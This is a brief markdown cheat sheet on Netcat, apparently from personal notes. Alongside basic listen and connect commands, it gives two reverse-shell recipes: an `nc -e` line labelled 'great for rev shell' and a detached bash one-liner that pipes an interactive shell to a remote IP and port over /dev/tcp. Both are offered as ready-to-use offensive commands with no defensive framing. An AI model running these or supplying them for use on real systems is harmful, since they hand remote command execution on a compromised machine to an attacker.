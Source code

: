 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
`setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`